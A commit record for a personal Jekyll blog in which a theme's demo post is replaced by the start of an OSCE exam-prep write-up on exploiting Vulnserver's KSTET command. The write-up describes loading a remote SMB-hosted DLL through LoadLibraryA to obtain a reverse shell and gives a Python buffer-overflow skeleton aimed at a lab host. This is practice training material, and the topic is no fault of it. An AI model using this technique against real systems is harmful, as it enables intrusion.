

Before and after one commit to br-sn/br-sn.github.io, a Jekyll site: the page built from _posts/2019-02-13-introducing-reverie-jekyll-theme.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2019-02-13-introducing-reverie-jekyll-theme.md

````diff
--- a/_posts/2019-02-13-introducing-reverie-jekyll-theme.md
+++ b/_posts/2019-02-13-introducing-reverie-jekyll-theme.md
@@ -1,85 +1,50 @@
 ---
 layout: post
-title: Introducing Reverie - A ridiculously elegant Jekyll theme
-categories: [Miscellaneous, Jekyll]
+title: OSCE Prep - Vulnserver KSTET Using Win32 API
+categories: [OSCE]
 ---
 
-[Reverie](https://github.com/amitmerchant1990/reverie) is a [Jekyll](https://jekyllrb.com/)-powered theme which is simple and opinionated. It's actually a fork of [jekyll-now](https://github.com/barryclark/jekyll-now) with some additional features and personal touches which I've implemented to suit my needs for my blog.
+While preparing for my upcoming OSCE exam I have spent many hours exploiting Vulnserver's various vulnerable functions in different ways. In this post, I wanted to highlight a technique I first came across on a Hack The Box write-up of the BigHead vulnerable machine by mislusnys, which can be found [here](http://mislusnys.github.io/post/htb-bighead/). All credit for this technique goes to them, I am merely using it to exploit a similarly small buffer space without making use of an egghunter or re-using sockets.
 
-This is a plug-and-play Jekyll theme which you can use on GitHub Pages without even setting up a local environment.
 
-![](/images/reverie-demo.png)
 
-## Features overview
+### Win32 API One-liners
 
-- Command-line free fork-first workflow, using GitHub.com to create, customize and post to your blog
-- Fully responsive and mobile optimized base theme
-- Sass/Coffeescript support using Jekyll 2.0
-- Free hosting on your GitHub Pages user site
-- All the SEO goodies comes in-built
-- Markdown blogging
-- Syntax highlighting using Pygments
-    - [Dracula syntax theme](https://draculatheme.com/) included
-- Disqus commenting
-- Google Analytics integration
-- Fuzzy search across blog posts
-- Pagination of posts works out-of-the-box.
-- Categorize posts out-of-the box
-- RSS Feed
-- In-built sitemap
+The Win32 API contains various ways of executing commands on the operating system. The most well known ones are `WinExec()`, `System()` and `ShellExecute()`. Each of these can be passed a command to be run directly on the system as if you entered it on the commandline. For a good write-up on `WinExec()` shellcode, I recommend FuzzySecurity's [Writing W32 shellcode](https://www.fuzzysecurity.com/tutorials/expDev/6.html) guide which is part of his excellent exploit development series.
 
-<div style="text-align: center;">
- <script async type="text/javascript" src="//cdn.carbonads.com/carbon.js?serve=CE7D6KJY&placement=wwwamitmerchantcom" id="_carbonads_js"></script>
-</div>
+A lesser known but equally effective Win32 API one-liner to execute code is the `LoadLibraryA()` function which is also exported by kernel32.dll.
 
-## Using Reverie on GitHub Pages
+### Shhh, is LoadLibrary!
 
-### Step 1) Fork Reverie to your User Repository
-
-Fork [this repository](https://github.com/amitmerchant1990/reverie), then rename the repository to `yourgithubusername.github.io`.
-
-Alternatively, you can use [Use this template](https://github.com/amitmerchant1990/reverie/generate) button if you want to create a repository with a clean commit history which will use Reverie as a template.
-
-Your Jekyll blog will often be viewable immediately at <https://yourgithubusername.github.io> (if it's not, you can often force it to build by completing step 2)
-
-### Step 2) Customize and view your site
-
-Enter your site name, description, avatar and many other options by editing the `_config.yml` file. You can easily turn on Google Analytics tracking, Disqus commenting and social icons here.
-
-Making a change to `_config.yml` (or any file in your repository) will force GitHub Pages to rebuild your site with jekyll. Your rebuilt site will be viewable a few seconds later at <https://yourgithubusername.github.io> - if not, give it ten minutes as GitHub suggests and it'll appear soon.
-
-### Step 3) Publish your first blog post
-
-Create a new file called `/_posts/2019-2-13-Hello-World.md` to publish your first blog post. That's all you need to do to publish your first blog post! This [Markdown Cheatsheet](https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet) might come in handy while writing the posts.
-
-> You can add additional posts in the browser on GitHub.com too! Just hit the <kbd>Create new file</kbd> button in `/_posts/` to create new content. Just make sure to include the [front-matter](http://jekyllrb.com/docs/frontmatter/) block at the top of each new blog post and make sure the post's filename is in this format: year-month-day-title.md
-
-## Using Categories in Reverie
-
-You can categorize your content based on `categories` in Reverie. For this, you just need to add `categories` in front matter like below:
-
-For adding single category:
-
-```md
-categories: JavaScript
+The LoadLibraryA function is used to load a module into the address space of the calling process. According to the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya), it only takes one argument:
+```c++
+HMODULE LoadLibraryA(
+  LPCSTR lpLibFileName
+);
 ```
 
-For adding multiple categories:
+Luckily, the lpLibFileName can be any resolvable path in Windows - including network paths. This effectively allows us to call any DLL on a SMB share and have it loaded by the application. It's then pretty straightforward to craft a DLL of our choosing using msfvenom and capture the reverse shell. Since it only takes one argument, the amount of shellcode required to execute this is quite small, which can be very handy when we're working with limited buffer space. Let's see this in action in the Vulnserver KSTET command.
 
-```md
-categories: [PHP, Laravel]
+
+### KSTET
+
+I'll skip the fuzzing of the KSTET function in vulnserver as there's plenty of write-ups on this subject already. For the purpose of this post we'll assume we know the offsets for EIP and will use the following skeleton exploit to start:
+```python
+
+#!/usr/bin/python
+
+import sys
+import socket
+
+buf = "KSTET "
+buf += "A"*70
+buf += "BBBB"
+buf += "C"*(1000-len(buf))
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect(("192.168.0.12",9999))
+print s.recv(1024)
+s.send(buf)
+print s.recv(1024)
+s.close()
 ```
-
-The contegorized content can be shown over this URL: <https://yourgithubusername.github.io/categories/>
-
-## RSS
-
-The generated [RSS feed](https://en.wikipedia.org/wiki/RSS) of your blog can be found at <https://yourgithubusername.github.io/feed>. You can see the example RSS feed over [here](https://www.amitmerchant.com/reverie/feed).
-
-## Sitemap
-
-The generated sitemap of your blog can be found at <https://yourgithubusername.github.io/sitemap>. You can see the example sitemap feed over [here](https://www.amitmerchant.com/reverie/sitemap).
-
-## License
-
-MIT
````
